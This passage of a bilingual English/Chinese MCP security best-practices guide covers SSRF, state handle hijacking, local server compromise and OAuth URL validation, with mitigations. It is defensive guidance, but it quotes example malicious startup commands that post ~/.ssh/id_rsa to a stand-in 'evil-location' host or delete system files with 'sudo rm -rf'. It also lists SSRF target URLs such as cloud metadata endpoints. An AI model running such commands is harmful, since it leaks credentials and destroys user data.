* **Direct internal IP access**: URLs like `http://192.168.1.1/admin` or
  `http://10.0.0.1/api` target internal network services
* **Cloud metadata endpoints**: URLs targeting
  `http://169.254.169.254/` (AWS/GCP/Azure metadata service) can
  exfiltrate cloud credentials and instance information
* **Localhost services**: URLs like `http://localhost:6379/` can interact
  with local services (Redis, databases, admin panels)
* **DNS rebinding**: Domains that change DNS resolution between
  validation and use (e.g., `https://attacker.com` resolving to a safe
  IP initially, then to `192.168.1.1`)
* **Redirect chains**: Normal-looking URLs that redirect to internal
  resources

</template>
<template #zh>

* **直连内部 IP**：形如 `http://192.168.1.1/admin` 或 `http://10.0.0.1/api` 的 URL 以内网服务为目标
* **云元数据端点**：指向 `http://169.254.169.254/`（AWS/GCP/Azure 元数据服务）的 URL 可被用来外泄云凭据和实例信息
* **本地服务**：形如 `http://localhost:6379/` 的 URL 可与本地服务（Redis、数据库、管理面板）交互
* **DNS 重绑定**：域名在校验与实际使用之间改变 DNS 解析（例如 `https://attacker.com` 起初解析到安全 IP，随后解析到 `192.168.1.1`）
* **重定向链**：看似正常的 URL 重定向到内部资源

</template>
</BiRow>

<BiRow>
<template #en>



</template>
<template #zh>


</template>
</BiRow>

<BiRow>
<template #en>

#### Risks

</template>
<template #zh>

#### 风险

</template>
</BiRow>

<BiRow>
<template #en>

* **Credential exfiltration**: Cloud metadata endpoints often expose
  IAM credentials, API keys, and other secrets
* **Internal network reconnaissance**: Error messages reveal information
  about internal network topology and services
* **Service interaction**: POST requests (e.g., to token endpoints) can
  trigger mutations on internal services
* **Firewall bypass**: The MCP client acts as a proxy, bypassing network
  perimeter controls
* **Data exfiltration**: Internal service responses may be reflected back
  to attackers through error messages or OAuth flows

</template>
<template #zh>

* **凭据外泄**：云元数据端点常暴露 IAM 凭据、API 密钥和其他机密
* **内网侦察**：错误信息会泄露内网拓扑与服务的信息
* **服务交互**：POST 请求（如发往令牌端点的请求）可能触发内部服务的状态变更
* **绕过防火墙**：MCP 客户端充当代理，绕过网络边界控制
* **数据外泄**：内部服务的响应可能经由错误信息或 OAuth 流程回传给攻击者

</template>
</BiRow>

<BiRow>
<template #en>

#### Mitigation

</template>
<template #zh>

#### 缓解措施

</template>
</BiRow>

<BiRow>
<template #en>

MCP clients deployed to a server **MUST** consider SSRF risks and
implement appropriate mitigations when fetching OAuth-related URLs.
Which protections are appropriate depend on your network environment.

</template>
<template #zh>

部署在服务器上的 MCP 客户端**必须（MUST）**考虑 SSRF 风险，并在获取 OAuth 相关 URL 时实施适当的缓解措施。哪些防护合适，取决于你的网络环境。

</template>
</BiRow>

<BiRow>
<template #en>

**Enforce HTTPS**

</template>
<template #zh>

**强制 HTTPS**

</template>
</BiRow>

<BiRow>
<template #en>

MCP clients **SHOULD** require HTTPS for all OAuth-related URLs in
production environments:

</template>
<template #zh>

MCP 客户端**应当（SHOULD）**在生产环境中对所有 OAuth 相关 URL 强制要求 HTTPS：

</template>
</BiRow>

<BiRow>
<template #en>

* Reject `http://` URLs except for loopback addresses (`localhost`,
  `127.0.0.1`, `::1`) during development
* This aligns with
  [OAuth 2.1 Section 1.5](https://datatracker.ietf.org/doc/html/draft-ietf-oauth-v2-1-13#section-1.5)
  which requires HTTPS for all OAuth protocol URLs except loopback
  redirect URIs
* Provide an explicit opt-out mechanism for development/testing
  scenarios

</template>
<template #zh>

* 开发期间，除环回地址（`localhost`、`127.0.0.1`、`::1`）外，拒绝 `http://` URL
* 这与 [OAuth 2.1 第 1.5 节](https://datatracker.ietf.org/doc/html/draft-ietf-oauth-v2-1-13#section-1.5)一致：除环回重定向 URI 外，所有 OAuth 协议 URL 都必须使用 HTTPS
* 为开发/测试场景提供显式的豁免（opt-out）机制

</template>
</BiRow>

<BiRow>
<template #en>

**Block Private IP Ranges**

</template>
<template #zh>

**封禁私有 IP 段**

</template>
</BiRow>

<BiRow>
<template #en>

MCP clients **SHOULD** block requests to private and reserved IP address
ranges as recommended by
[RFC 9728 Section 7.7](https://datatracker.ietf.org/doc/html/rfc9728#section-7.7):

</template>
<template #zh>

MCP 客户端**应当（SHOULD）**按照 [RFC 9728 第 7.7 节](https://datatracker.ietf.org/doc/html/rfc9728#section-7.7)的建议，阻止对私有及保留 IP 地址段的请求：

</template>
</BiRow>

<BiRow>
<template #en>

* Private IPv4 ranges: `10.0.0.0/8`, `172.16.0.0/12`,
  `192.168.0.0/16`
* Loopback: `127.0.0.0/8`, `::1` (except when explicitly allowed for
  development)
* Link-local: `169.254.0.0/16` (including cloud metadata endpoints)
* Private IPv6 ranges: `fc00::/7`, `fe80::/10`

</template>
<template #zh>

* 私有 IPv4 段：`10.0.0.0/8`、`172.16.0.0/12`、`192.168.0.0/16`
* 环回：`127.0.0.0/8`、`::1`（开发中明确允许时除外）
* 链路本地：`169.254.0.0/16`（含云元数据端点）
* 私有 IPv6 段：`fc00::/7`、`fe80::/10`

</template>
</BiRow>

<BiRow>
<template #en>

> **注：**
> Avoid implementing IP validation manually. Attackers exploit encoding tricks
  (octal, hex, IPv4-mapped IPv6) that custom parsers often miss.

</template>
<template #zh>

> **注：**
> 不要手工实现 IP 校验。攻击者会利用各种编码技巧（八进制、十六进制、IPv4 映射的 IPv6 地址），自研解析器常常漏掉这些手法。

</template>
</BiRow>

<BiRow>
<template #en>

**Validate Redirect Targets**

</template>
<template #zh>

**校验重定向目标**

</template>
</BiRow>

<BiRow>
<template #en>

MCP clients **SHOULD** apply the same URL validation to redirect
targets:

</template>
<template #zh>

MCP 客户端**应当（SHOULD）**对重定向目标应用同样的 URL 校验：

</template>
</BiRow>

<BiRow>
<template #en>

* Do not blindly follow redirects to internal resources
* Apply HTTPS and IP range restrictions to redirect destinations
* Consider disabling automatic redirect following and validating each
  hop

</template>
<template #zh>

* 不要盲目跟随指向内部资源的重定向
* 对重定向目的地应用 HTTPS 与 IP 段限制
* 考虑禁用自动跟随重定向，改为逐跳校验

</template>
</BiRow>

<BiRow>
<template #en>

**Use Egress Proxies**

</template>
<template #zh>

**使用出口代理**

</template>
</BiRow>

<BiRow>
<template #en>

For server-side MCP client deployments, operators **SHOULD** consider
using an egress proxy that enforces network policies:

</template>
<template #zh>

对于部署在服务器端的 MCP 客户端，运营者**应当（SHOULD）**考虑使用强制执行网络策略的出口代理（egress proxy）：

</template>
</BiRow>

<BiRow>
<template #en>

* Route OAuth discovery requests through a proxy that blocks internal
  destinations
* Use tools like
  [Smokescreen](https://github.com/stripe/smokescreen) or similar
  egress proxies that prevent SSRF by design
* Configure network policies to restrict the MCP client's outbound
  access

</template>
<template #zh>

* 让 OAuth 发现请求经过一个会拦截内部目标的代理
* 使用 [Smokescreen](https://github.com/stripe/smokescreen) 这类在设计上就能防 SSRF 的出口代理工具
* 配置网络策略，限制 MCP 客户端的出站访问

</template>
</BiRow>

<BiRow>
<template #en>

**DNS Resolution Considerations**

</template>
<template #zh>

**DNS 解析的注意事项**

</template>
</BiRow>

<BiRow>
<template #en>

Be aware of Time-of-Check to Time-of-Use (TOCTOU) issues with
DNS-based validation:

</template>
<template #zh>

要警惕基于 DNS 的校验存在「检查时到使用时」（TOCTOU）问题：

</template>
</BiRow>

<BiRow>
<template #en>

* An attacker's domain may resolve to a safe IP during validation but
  to an internal IP during the actual request
* Consider pinning DNS resolution results between check and use
* Defense in depth: combine DNS checks with other mitigations

</template>
<template #zh>

* 攻击者的域名可能在校验时解析到安全 IP，而在实际请求时解析到内部 IP
* 考虑在校验与使用之间固定（pin）DNS 解析结果
* 纵深防御：把 DNS 校验与其他缓解措施结合使用

</template>
</BiRow>

<BiRow>
<template #en>

#### SSRF Against Authorization Servers

</template>
<template #zh>

#### 针对授权服务器的 SSRF

</template>
</BiRow>

<BiRow>
<template #en>

SSRF risks are not limited to MCP clients. When an authorization
server supports
[Client ID Metadata Documents](https://modelcontextprotocol.io/specification/2026-07-28/basic/authorization/client-registration#client-id-metadata-documents),
the authorization server takes a URL as input from an unknown client
and fetches that URL. A malicious client could use this to trigger
the authorization server to make requests to arbitrary URLs, such as
requests to private administration endpoints the authorization server
has access to.

</template>
<template #zh>

SSRF 风险并不限于 MCP 客户端。当授权服务器支持[客户端 ID 元数据文档](https://modelcontextprotocol.io/specification/2026-07-28/basic/authorization/client-registration#client-id-metadata-documents)时，授权服务器会把一个 URL 作为来自未知客户端的输入，并去获取该 URL。恶意客户端可以借此诱使授权服务器向任意 URL 发起请求，例如请求授权服务器有权访问的私有管理端点。

</template>
</BiRow>

<BiRow>
<template #en>

The mitigations described above, such as blocking private IP ranges
and using egress proxies, apply equally to authorization servers
fetching client metadata documents. See
[Server Side Request Forgery (SSRF) Attacks](https://datatracker.ietf.org/doc/html/draft-ietf-oauth-client-id-metadata-document-00#name-server-side-request-forgery)
in the Client ID Metadata Document specification for further
guidance.

</template>
<template #zh>

上述缓解措施（如封禁私有 IP 段、使用出口代理）同样适用于获取客户端元数据文档的授权服务器。更多指导见客户端 ID 元数据文档规范中的 [SSRF 攻击](https://datatracker.ietf.org/doc/html/draft-ietf-oauth-client-id-metadata-document-00#name-server-side-request-forgery)一节。

</template>
</BiRow>

<BiRow>
<template #en>

#### Resources and Tools

</template>
<template #zh>

#### 参考资源与工具

</template>
</BiRow>

<BiRow>
<template #en>

The following resources can help developers implement SSRF protections
in MCP clients.

</template>
<template #zh>

以下资源可以帮助开发者在 MCP 客户端中实现 SSRF 防护。

</template>
</BiRow>

<BiRow>
<template #en>

**Reference Documentation**

</template>
<template #zh>

**参考文档**

</template>
</BiRow>

<BiRow>
<template #en>

* [OWASP SSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html):
  Comprehensive guidance on SSRF prevention techniques, including input
  validation, allowlist strategies, and network-level controls
* [OWASP Top 10 A10:2021 - SSRF](https://owasp.org/Top10/2021/A10_2021-Server-Side_Request_Forgery_%28SSRF%29/):
  SSRF in the context of the most critical web application security
  risks

</template>
<template #zh>

* [OWASP SSRF 防护速查表](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)：关于 SSRF 防护技术的全面指导，涵盖输入校验、允许列表策略与网络层控制
* [OWASP Top 10 A10:2021 - SSRF](https://owasp.org/Top10/2021/A10_2021-Server-Side_Request_Forgery_%28SSRF%29/)：SSRF 在最关键 Web 应用安全风险榜单中的定位

</template>
</BiRow>

<BiRow>
<template #en>

### State Handle Hijacking

</template>
<template #zh>

### 状态句柄劫持（State Handle Hijacking）

</template>
</BiRow>

<BiRow>
<template #en>

MCP is [stateless](https://modelcontextprotocol.io/specification/2026-07-28/basic/index#statelessness) and
has no protocol-level sessions. Servers that need state spanning
multiple requests mint an explicit handle, such as a shopping cart ID
or a workflow ID, and receive it back as an ordinary tool argument on
each request. State handle hijacking is an attack vector where an
unauthorized party obtains or guesses such a handle and uses it to
access or modify another user's state.

</template>
<template #zh>

MCP 是[无状态](https://modelcontextprotocol.io/specification/2026-07-28/basic/index#statelessness)的，没有协议层面的会话。需要跨多次请求保持状态的服务器，会生成一个显式句柄（如购物车 ID 或工作流 ID），并在后续每次请求中把它作为普通工具参数收回来。状态句柄劫持是这样一类攻击向量：未授权方获取或猜出这样的句柄，并利用它访问或篡改其他用户的状态。

</template>
</BiRow>

<BiRow>
<template #en>

#### Attack Description

</template>
<template #zh>

#### 攻击描述

</template>
</BiRow>

<BiRow>
<template #en>

1. The MCP server mints a state handle for an authenticated user and
   returns it in a tool result.
2. The attacker obtains or guesses the handle.
3. The attacker calls the MCP server's tools with the handle as an
   argument.
4. The MCP server does not check whether the handle belongs to the
   caller and operates on the original user's state, allowing
   unauthorized access or actions.

</template>
<template #zh>

1. MCP 服务器为已认证用户生成一个状态句柄，并在工具结果中返回。
2. 攻击者获取或猜出该句柄。
3. 攻击者调用 MCP 服务器的工具，并把句柄作为参数传入。
4. MCP 服务器不检查句柄是否属于调用者，直接对原用户的状态进行操作，造成未授权访问或未授权操作。

</template>
</BiRow>

<BiRow>
<template #en>

#### Mitigation

</template>
<template #zh>

#### 缓解措施

</template>
</BiRow>

<BiRow>
<template #en>

MCP servers that implement authorization **MUST** verify all inbound
requests. MCP servers **MUST NOT** treat possession of a state handle
as authentication.

</template>
<template #zh>

实现授权的 MCP 服务器**必须（MUST）**校验所有入站请求。MCP 服务器**不得（MUST NOT）**把「持有状态句柄」当作认证。

</template>
</BiRow>

<BiRow>
<template #en>

MCP servers **SHOULD** use secure, non-deterministic handles generated
with secure random number generators. Avoid predictable or sequential
identifiers that could be guessed by an attacker. Expiring handles can
also reduce the risk.

</template>
<template #zh>

MCP 服务器**应当（SHOULD）**使用由安全随机数生成器生成的非确定性安全句柄。避免使用攻击者可猜测的可预测或顺序标识符。让句柄过期也能降低风险。

</template>
</BiRow>

<BiRow>
<template #en>

MCP servers **SHOULD** bind handles server-side to the authenticated
user, for example by keying stored state as `<user_id>:<handle>` where
the user ID is derived from the verified token rather than supplied by
the client, and reject a handle presented by any other principal. This
ensures that even if an attacker guesses a handle, they cannot
impersonate another user.

</template>
<template #zh>

MCP 服务器**应当（SHOULD）**在服务器端把句柄绑定到已认证用户，例如把存储的状态以 `<user_id>:<handle>` 为键，其中用户 ID 从已验证的令牌推导而来，而非由客户端提供；并拒绝任何其他主体出示的句柄。这样即使攻击者猜中了句柄，也无法冒充其他用户。

</template>
</BiRow>

<BiRow>
<template #en>

For guidance on securing the server-assigned session IDs used by
protocol version `2025-11-25` and earlier, see
[Session Hijacking in the 2025-11-25 version of this page](https://modelcontextprotocol.io/docs/2025-11-25/tutorials/security/security_best_practices#session-hijacking).

</template>
<template #zh>

关于如何保护 `2025-11-25` 及更早协议版本所使用的、由服务器分配的会话 ID，请参阅[本页 2025-11-25 版本中的「会话劫持」](https://modelcontextprotocol.io/docs/2025-11-25/tutorials/security/security_best_practices#session-hijacking)。

</template>
</BiRow>

<BiRow>
<template #en>

### Local MCP Server Compromise

</template>
<template #zh>

### 本地 MCP 服务器失陷

</template>
</BiRow>

<BiRow>
<template #en>

Local MCP servers are MCP Servers running on a user's local machine,
either by the user downloading and executing a server, authoring a
server themselves, or installing through a client's configuration flows.
These servers may have direct access to the user's system and may be
accessible to other processes running on the user's machine, making them
attractive targets for attacks.

</template>
<template #zh>

本地 MCP 服务器是运行在用户本地机器上的 MCP 服务器，其来源可以是用户下载并执行的服务器、用户自己编写的服务器，或通过客户端配置流程安装的服务器。这些服务器可能直接访问用户的系统，也可能被用户机器上运行的其他进程访问，因此是颇具吸引力的攻击目标。

</template>
</BiRow>

<BiRow>
<template #en>

#### Attack Description

</template>
<template #zh>

#### 攻击描述

</template>
</BiRow>

<BiRow>
<template #en>

Local MCP servers are binaries that are downloaded and executed on the
same machine as the MCP client. Without proper sandboxing and consent
requirements in place, the following attacks become possible:

</template>
<template #zh>

本地 MCP 服务器是下载到与 MCP 客户端同一台机器上执行的二进制程序。缺少适当的沙箱隔离与同意要求时，以下攻击就成为可能：

</template>
</BiRow>

<BiRow>
<template #en>

1. An attacker includes a malicious "startup" command in a client
   configuration
2. An attacker distributes a malicious payload inside the server itself
3. An attacker accesses an insecure local server that's left running on
   localhost via DNS rebinding

</template>
<template #zh>

1. 攻击者在客户端配置中塞入一条恶意「启动」命令
2. 攻击者在服务器程序自身中分发恶意载荷
3. 攻击者经由 DNS 重绑定，访问遗留在 localhost 上运行、缺乏防护的本地服务器

</template>
</BiRow>

<BiRow>
<template #en>

Example malicious startup commands that could be embedded:

</template>
<template #zh>

可能被植入的恶意启动命令示例：

</template>
</BiRow>

<BiRow>
<template #en>

```bash
# Data exfiltration
npx malicious-package && curl -X POST -d @~/.ssh/id_rsa https://example.com/evil-location

# Privilege escalation
sudo rm -rf /important/system/files && echo "MCP server installed!"
```

</template>
<template #zh>

```bash
# Data exfiltration
npx malicious-package && curl -X POST -d @~/.ssh/id_rsa https://example.com/evil-location

# Privilege escalation
sudo rm -rf /important/system/files && echo "MCP server installed!"
```

</template>
</BiRow>

<BiRow>
<template #en>

#### Risks

</template>
<template #zh>

#### 风险

</template>
</BiRow>

<BiRow>
<template #en>

Local MCP servers with inadequate restrictions or from untrusted sources
introduce several critical security risks:

</template>
<template #zh>

限制不足或来源不可信的本地 MCP 服务器会引入多项关键安全风险：

</template>
</BiRow>

<BiRow>
<template #en>

* **Arbitrary code execution**. Attackers can execute any command with
  MCP client privileges.
* **No visibility**. Users have no insight into what commands are being
  executed.
* **Command obfuscation**. Malicious actors can use complex or
  convoluted commands to appear legitimate.
* **Data exfiltration**. Attackers can access legitimate local MCP
  servers via compromised JavaScript.
* **Data loss**. Attackers or bugs in legitimate servers could lead to
  irrecoverable data loss on the host machine.

</template>
<template #zh>

* **任意代码执行**。攻击者能以 MCP 客户端的权限执行任意命令。
* **毫无可见性**。用户无从知晓正在执行哪些命令。
* **命令混淆**。恶意行为者可以用复杂或迂回的命令伪装成合法操作。
* **数据外泄**。攻击者可经由被攻陷的 JavaScript 访问合法的本地 MCP 服务器。
* **数据丢失**。攻击者或合法服务器中的缺陷，都可能造成宿主机上无法恢复的数据丢失。

</template>
</BiRow>

<BiRow>
<template #en>

#### Mitigation

</template>
<template #zh>

#### 缓解措施

</template>
</BiRow>

<BiRow>
<template #en>

If an MCP client supports one-click local MCP server configuration, it
**MUST** implement proper consent mechanisms prior to executing commands.

</template>
<template #zh>

如果 MCP 客户端支持一键配置本地 MCP 服务器，它**必须（MUST）**在执行命令之前实现适当的同意机制。

</template>
</BiRow>

<BiRow>
<template #en>

**Pre-Configuration Consent**

</template>
<template #zh>

**配置前同意**

</template>
</BiRow>

<BiRow>
<template #en>

Display a clear consent dialog before connecting a new local MCP server
via one-click configuration. The MCP client **MUST**:

</template>
<template #zh>

在通过一键配置连接新的本地 MCP 服务器之前，应显示清晰的同意对话框。MCP 客户端**必须（MUST）**：

</template>
</BiRow>

<BiRow>
<template #en>

* Show the exact command that will be executed, without truncation
  (include arguments and parameters)
* Clearly identify it as a potentially dangerous operation that executes
  code on the user's system
* Require explicit user approval before proceeding
* Allow users to cancel the configuration

</template>
<template #zh>

* 完整显示将要执行的确切命令，不做截断（包括参数与选项）
* 明确提示这是一项会在用户系统上执行代码的潜在危险操作
* 继续之前要求用户明确批准
* 允许用户取消该配置

</template>
</BiRow>

<BiRow>
<template #en>

The MCP client **SHOULD** implement additional checks and guardrails to
mitigate potential code execution attack vectors:

</template>
<template #zh>

MCP 客户端**应当（SHOULD）**实现额外的检查与防护栏，以缓解潜在的代码执行攻击向量：

</template>
</BiRow>

<BiRow>
<template #en>

* Highlight potentially dangerous command patterns (e.g., commands
  containing `sudo`, `rm -rf`, network operations, file system access
  outside expected directories)
* Display warnings for commands that access sensitive locations (home
  directory, SSH keys, system directories)
* Warn that MCP servers run with the same privileges as the client
* Execute MCP server commands in a sandboxed environment with minimal
  default privileges
* Launch MCP servers with restricted access to the file system, network,
  and other system resources
* Provide mechanisms for users to explicitly grant additional privileges
  (e.g., specific directory access, network access) when needed
* Use platform-appropriate sandboxing technologies (containers, chroot,
  application sandboxes, etc.)
* Keep sandboxing solutions up-to-date to account for emerging
  vulnerabilities

</template>
<template #zh>

* 突出显示潜在危险的命令模式（如包含 `sudo`、`rm -rf`、网络操作、在预期目录之外访问文件系统的命令）
* 对访问敏感位置（主目录、SSH 密钥、系统目录）的命令显示警告
* 提醒用户：MCP 服务器以与客户端相同的权限运行
* 在默认权限最小的沙箱环境中执行 MCP 服务器命令
* 启动 MCP 服务器时限制其对文件系统、网络及其他系统资源的访问
* 提供机制，让用户在需要时显式授予额外权限（如特定目录访问、网络访问）
* 使用与平台相适配的沙箱技术（容器、chroot、应用沙箱等）
* 保持沙箱方案及时更新，以应对新出现的漏洞

</template>
</BiRow>

<BiRow>
<template #en>

MCP servers intending for their servers to be run locally **SHOULD**
implement measures to prevent unauthorized usage from malicious
processes:

</template>
<template #zh>

打算让自己的服务器在本地运行的 MCP 服务器**应当（SHOULD）**实现防范恶意进程未授权使用的措施：

</template>
</BiRow>

<BiRow>
<template #en>

* Use the `stdio` transport to limit access to just the MCP client
* Restrict access if using an HTTP transport, such as:
  * Require an authorization token
  * Use unix domain sockets or other Interprocess Communication (IPC)
mechanisms with restricted access

</template>
<template #zh>

* 使用 `stdio`（标准输入输出）传输，把访问权限限制为仅该 MCP 客户端
* 若使用 HTTP 传输，则限制访问，例如：
  * 要求授权令牌
  * 使用 unix domain socket 或其他访问受限的进程间通信（IPC）机制

</template>
</BiRow>

<BiRow>
<template #en>

### OAuth Authorization URL Validation

</template>
<template #zh>

### OAuth 授权 URL 校验

</template>
</BiRow>

<BiRow>
<template #en>

OAuth authorization URLs provided by malicious MCP servers can exploit client-side URL handling vulnerabilities, leading to Cross-Site Scripting (XSS) attacks and Remote Code Execution (RCE).

</template>
<template #zh>

恶意 MCP 服务器提供的 OAuth 授权 URL，可能利用客户端 URL 处理上的漏洞，导致跨站脚本（XSS）攻击与远程代码执行（RCE）。

</template>
</BiRow>

<BiRow>
<template #en>

#### Attack Description

</template>
<template #zh>

#### 攻击描述

</template>
</BiRow>

<BiRow>
<template #en>

During the OAuth authorization flow, MCP servers provide authorization URLs that clients open in browsers or handle programmatically. Malicious servers can exploit insufficient URL validation in MCP clients through the following attack vectors:

</template>
<template #zh>

在 OAuth 授权流程中，MCP 服务器会提供授权 URL，由客户端在浏览器中打开或以编程方式处理。恶意服务器可以通过以下攻击向量，利用 MCP 客户端不充分的 URL 校验：

</template>
</BiRow>

<BiRow>
<template #en>

**JavaScript URL Injection (XSS)**

</template>
<template #zh>

**JavaScript URL 注入（XSS）**

</template>
</BiRow>

<BiRow>
<template #en>

1. A malicious MCP server provides a `javascript:` URL as the authorization endpoint
2. The MCP client passes this URL directly to `window.open()` or similar browser APIs
3. The browser executes the JavaScript code embedded in the URL
4. The attacker gains JavaScript execution context within the client application, potentially leading to session hijacking, credential theft, or further exploitation

</template>
<template #zh>

1. 恶意 MCP 服务器提供一个 `javascript:` URL 作为授权端点
2. MCP 客户端把这个 URL 直接传给 `window.open()` 或类似的浏览器 API
3. 浏览器执行 URL 中嵌入的 JavaScript 代码
4. 攻击者在客户端应用内获得 JavaScript 执行上下文，进而可能导致会话劫持、凭据窃取或进一步利用

</template>
</BiRow>

<BiRow>
<template #en>

**Command Injection via Shell Execution**

</template>
<template #zh>

**经由 Shell 执行的命令注入**

</template>
</BiRow>

<BiRow>
<template #en>

1. A malicious MCP server provides a URL containing shell command injection payloads
2. The MCP client uses shell commands (e.g., `cmd.exe`, PowerShell, or shell scripts) to open the URL
3. The shell interprets parts of the URL as additional commands to execute
4. The attacker achieves arbitrary code execution on the user's system

</template>
<template #zh>

1. 恶意 MCP 服务器提供一个包含 shell 命令注入载荷的 URL
2. MCP 客户端使用 shell 命令（如 `cmd.exe`、PowerShell 或 shell 脚本）打开该 URL
3. shell 把 URL 的部分内容解释为要执行的其他命令
4. 攻击者在用户系统上实现任意代码执行

</template>
</BiRow>

<BiRow>
<template #en>

**stdio Transport Privilege Escalation**

</template>
<template #zh>

**stdio 传输的权限提升**

</template>
</BiRow>

<BiRow>
<template #en>

When XSS vulnerabilities are combined with `stdio` transport capabilities,
attackers can escalate web-based attacks to full system compromise. See
[stdio Transport Security in Proxy Scenarios](#stdio-transport-security-in-proxy-scenarios)
for detailed attack vectors and mitigations.

</template>
<template #zh>

当 XSS 漏洞与 `stdio` 传输能力相结合时，攻击者可以把基于 Web 的攻击升级为整个系统的失陷。具体攻击向量与缓解措施见[代理场景下的 stdio 传输安全](#stdio-transport-security-in-proxy-scenarios)。

</template>
</BiRow>

<BiRow>
<template #en>



</template>
<template #zh>


</template>
</BiRow>

<BiRow>
<template #en>

#### Risks

</template>
<template #zh>

#### 风险

</template>
</BiRow>

<BiRow>
<template #en>

OAuth authorization URL vulnerabilities introduce several critical security risks:

</template>
<template #zh>

OAuth 授权 URL 漏洞会引入多项关键安全风险：

</template>
</BiRow>

<BiRow>
<template #en>

* **Cross-Site Scripting (XSS)**. Malicious JavaScript execution can lead to session hijacking, credential theft, and unauthorized actions within the client application.
* **Remote Code Execution (RCE)**. Command injection through shell execution allows attackers to run arbitrary code with user privileges.
* **Privilege Escalation**. XSS combined with `stdio` transport can escalate web-based attacks to full system compromise.
* **Data Exfiltration**. Attackers can access sensitive data, configuration files, and credentials stored on the user's system.
* **Persistence**. Attackers can install malware, create backdoors, or modify system configurations for persistent access.

</template>
<template #zh>

* **跨站脚本（XSS）**。恶意 JavaScript 的执行可能导致会话劫持、凭据窃取，以及在客户端应用内执行未授权操作。
* **远程代码执行（RCE）**。经由 shell 执行的命令注入让攻击者能以用户权限运行任意代码。
* **权限提升**。XSS 与 `stdio` 传输结合，可以把基于 Web 的攻击升级为整个系统的失陷。
* **数据外泄**。攻击者可以访问用户系统上存储的敏感数据、配置文件和凭据。
* **持久驻留**。攻击者可以安装恶意软件、创建后门或修改系统配置，以实现长期访问。

</template>
</BiRow>

<BiRow>
<template #en>

#### Mitigation

</template>
<template #zh>

#### 缓解措施

</template>
</BiRow>

<BiRow>
<template #en>

**URL Scheme Validation**

</template>
<template #zh>

**URL Scheme 校验**

</template>
</BiRow>

<BiRow>
<template #en>

MCP clients **MUST** validate authorization URLs and reject dangerous schemes:

</template>
<template #zh>

MCP 客户端**必须（MUST）**校验授权 URL，并拒绝危险的 scheme（协议方案）：

</template>
</BiRow>

<BiRow>
<template #en>

* **MUST** only allow `http://` and `https://` schemes for authorization URLs.
  The `http://` scheme is acceptable only for loopback addresses (such as
  `localhost`, `127.0.0.1`, or `::1`) during local development; authorization
  servers in production **MUST** use `https://`.
* **MUST** reject `javascript:`, `data:`, `file:`, `vbscript:`, and other potentially dangerous schemes
* **SHOULD** use allowlist-based validation rather than blocklist-based approaches

</template>
<template #zh>

* **必须（MUST）**只允许授权 URL 使用 `http://` 与 `https://` scheme。`http://` 仅在本地开发期间用于环回地址（如 `localhost`、`127.0.0.1` 或 `::1`）时才可接受；生产环境中的授权服务器**必须（MUST）**使用 `https://`。
* **必须（MUST）**拒绝 `javascript:`、`data:`、`file:`、`vbscript:` 及其他潜在危险的 scheme
* **应当（SHOULD）**采用基于允许列表的校验，而非基于阻止列表的方式

</template>
</BiRow>

<BiRow>
<template #en>

**Secure URL Opening**

</template>
<template #zh>

**安全地打开 URL**

</template>
</BiRow>

<BiRow>
<template #en>

MCP clients **MUST** avoid shell execution when opening URLs:

</template>
<template #zh>

MCP 客户端**必须（MUST）**避免在打开 URL 时经由 shell 执行：

</template>
</BiRow>

<BiRow>
<template #en>

* **MUST NOT** use shell commands (e.g., `cmd.exe`, `sh`, PowerShell) to open URLs
* **SHOULD** use platform-specific, non-shell URL opening mechanisms

</template>
<template #zh>

* **不得（MUST NOT）**使用 shell 命令（如 `cmd.exe`、`sh`、PowerShell）打开 URL
* **应当（SHOULD）**使用平台原生的、不经过 shell 的 URL 打开机制

</template>
</BiRow>

<BiRow>
<template #en>

**Content Security Policy (CSP)**

</template>
<template #zh>

**内容安全策略（CSP）**

</template>
</BiRow>

<BiRow>
<template #en>

Web-based MCP clients **SHOULD** implement Content Security Policy headers to prevent JavaScript execution:

</template>
<template #zh>

基于 Web 的 MCP 客户端**应当（SHOULD）**实现内容安全策略（Content Security Policy，CSP）响应头来阻止 JavaScript 执行：

</template>
</BiRow>

<BiRow>
<template #en>

* Set `script-src 'self'` to prevent execution of inline JavaScript
* Use `default-src 'self'` to restrict resource loading
* Consider `script-src 'nonce-<random>'` for dynamic content that requires inline scripts

</template>
<template #zh>

* 设置 `script-src 'self'` 以阻止内联 JavaScript 执行
* 使用 `default-src 'self'` 限制资源加载
* 对确实需要内联脚本的动态内容，考虑使用 `script-src 'nonce-<random>'`

</template>
</BiRow>

<BiRow>
<template #en>

**Input Sanitization**

</template>
<template #zh>

**输入净化**

</template>
</BiRow>

<BiRow>
<template #en>

MCP clients **MUST** sanitize and validate all URLs received from MCP servers:

</template>
<template #zh>

MCP 客户端**必须（MUST）**对从 MCP 服务器收到的所有 URL 做净化与校验：

</template>
</BiRow>

<BiRow>
<template #en>

* Implement strict URL parsing and validation
* Reject URLs with special characters that could be interpreted by shells
* Consider using dedicated URL sanitization libraries
* Log suspicious authorization URLs for security monitoring

</template>
<template #zh>

* 实现严格的 URL 解析与校验
* 拒绝包含可能被 shell 解释的特殊字符的 URL
* 考虑使用专门的 URL 净化库
* 记录可疑的授权 URL，用于安全监控

</template>
</BiRow>

<BiRow>
<template #en>

### stdio Transport Security in Proxy Scenarios

</template>
<template #zh>

### 代理场景下的 stdio 传输安全

</template>
</BiRow>

<BiRow>
<template #en>

The `stdio` transport itself is not inherently vulnerable. However, in proxy architectures where a separate proxy service manages `stdio` connections and can spawn MCP servers as child processes, it can provide a critical escalation path from web-based attacks to full system compromise.

</template>
<template #zh>

`stdio` 传输本身并非天然存在漏洞。然而在代理架构中——由一个独立的代理服务管理 `stdio` 连接、并把 MCP 服务器作为子进程拉起——它可能成为从基于 Web 的攻击升级到整个系统失陷的关键路径。

</template>
</BiRow>

<BiRow>
<template #en>

#### Attack Description

</template>
<template #zh>

#### 攻击描述

</template>
</BiRow>

<BiRow>
<template #en>

**Important**: This attack vector only applies to MCP implementations that use a proxy architecture, not to direct `stdio` transport usage.

</template>
<template #zh>

**重要**：这一攻击向量只适用于采用代理架构的 MCP 实现，不适用于直接使用 `stdio` 传输的场景。

</template>
</BiRow>

<BiRow>
<template #en>

In proxy-based MCP implementations, a local proxy service sits between the client and MCP servers, spawning servers as child processes via the `stdio` transport. This architecture creates a privileged escalation path when combined with client-side vulnerabilities:

</template>
<template #zh>

